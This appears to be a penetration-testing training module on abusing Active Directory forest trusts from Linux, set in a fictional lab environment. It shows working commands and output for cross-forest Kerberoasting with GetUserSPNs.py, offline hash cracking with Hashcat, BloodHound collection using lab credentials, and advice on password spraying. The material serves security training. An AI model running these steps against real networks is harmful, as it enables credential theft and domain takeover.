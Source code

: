 # Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux

As we saw in the previous section, it is often possible to Kerberoast across a forest trust. If this is possible in the environment we are assessing, we can perform this with `GetUserSPNs.py` from our Linux attack host. To do this, we need credentials for a user that can authenticate into the other domain and specify the `-target-domain` flag in our command. Performing this against the `FREIGHTLOGISTICS.LOCAL` domain, we see one SPN entry for the `mssqlsvc` account.

## Cross-Forest Kerberoasting

### **Using GetUserSPNs.py**

```shell-session
$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>
```

### **Using the -request Flag**

Rerunning the command with the `-request` flag added gives us the TGS ticket. We could also add `-outputfile <OUTPUT FILE>` to output directly into a file that we could then turn around and run Hashcat against.

```shell-session
$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               


$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>
```

We could then attempt to crack this offline using Hashcat with mode `13100`. If successful, we'd be able to authenticate into the `FREIGHTLOGISTICS.LOCAL` domain as a Domain Admin. If we are successful with this type of attack during a real-world assessment, it would also be worth checking to see if this account exists in our current domain and if it suffers from password re-use. This could be a quick win for us if we have not yet been able to escalate in our current domain. Even if we already have control over the current domain, it would be worth adding a finding to our report if we do find password re-use across similarly named accounts in different domains.

{% hint style="info" %}
Suppose we can Kerberoast across a trust and have run out of options in the current domain. In that case, it could also be worth attempting a single password spray with the cracked password, as there is a possibility that it could be used for other service accounts if the same admins are in charge of both domains. Here, we have yet another example of iterative testing and leaving no stone unturned.
{% endhint %}

***

## Hunting Foreign Group Membership with Bloodhound-python

As noted in the last section, we may, from time to time, see users or admins from one domain as members of a group in another domain. Since only `Domain Local Groups` allow users from outside their forest, it is not uncommon to see a highly privileged user from Domain A as a member of the built-in administrators group in domain B when dealing with a bidirectional forest trust relationship. If we are testing from a Linux host, we can gather this information by using the [Python implementation of BloodHound](https://github.com/fox-it/BloodHound.py). We can use this tool to collect data from multiple domains, ingest it into the GUI tool and search for these relationships.

On some assessments, our client may provision a VM for us that gets an IP from DHCP and is configured to use the internal domain's DNS. We will be on an attack host without DNS configured in other instances. In this case, we would need to edit our `resolv.conf` file to run this tool since it requires a DNS hostname for the target Domain Controller instead of an IP address. We can edit the file as follows using sudo rights. Here we have commented out the current nameserver entries and added the domain name and the IP address of `ACADEMY-EA-DC01` as the nameserver.

### **Adding INLANEFREIGHT.LOCAL Information to /etc/resolv.conf**

```shell-session
$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

Once this is in place, we can run the tool against the target domain as follows:

### **Running bloodhound-python Against INLANEFREIGHT.LOCAL**

```shell-session
$ bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 559 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01
INFO: Found 2950 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts

<SNIP>
```

### **Compressing the File with zip -r**

We can compress the resultant zip files to upload one single zip file directly into the BloodHound GUI.

```shell-session
$ zip -r ilfreight_bh.zip *.json

  adding: 20220329140127_computers.json (deflated 99%)
  adding: 20220329140127_domains.json (deflated 82%)
  adding: 20220329140127_groups.json (deflated 97%)
  adding: 20220329140127_users.json (deflated 98%)
```

We will repeat the same process, this time filling in the details for the `FREIGHTLOGISTICS.LOCAL` domain.

### **Adding FREIGHTLOGISTICS.LOCAL Information to /etc/resolv.conf**

```shell-session
$ cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

The `bloodhound-python` command will look similar to the previous one:

### **Running bloodhound-python Against FREIGHTLOGISTICS.LOCAL**

```shell-session
$ bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2

INFO: Found AD domain: freightlogistics.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 5 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 9 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL
INFO: Found 52 groups
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
```

After uploading the second set of data (either each JSON file or as one zip file), we can click on `Users with Foreign Domain Group Membership` under the `Analysis` tab and select the source domain as `INLANEFREIGHT.LOCAL`. Here, we will see the built-in Administrator account for the INLANEFREIGHT.LOCAL domain is a member of the built-in Administrators group in the FREIGHTLOGISTICS.LOCAL domain as we saw previously.

### **Viewing Dangerous Rights through BloodHound**

<figure><img src="../../../../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>

***

## Closing Thoughts on Trusts

As seen in the past few sections, there are several ways to leverage domain trusts to gain additional access and even do an "end-around" and escalate privileges in our current domain. For example, we can take over a domain that our current domain has a trust with, and find password re-use across privileged accounts. We've seen how Domain Admin rights in a child domain nearly always mean we can escalate privileges and compromise the parent domain using the ExtraSids attack. Domain trusts are a rather large and complex topic. The primer in this module has given us the tools to enumerate trusts and perform some standard intra-forest and cross-forest attacks.

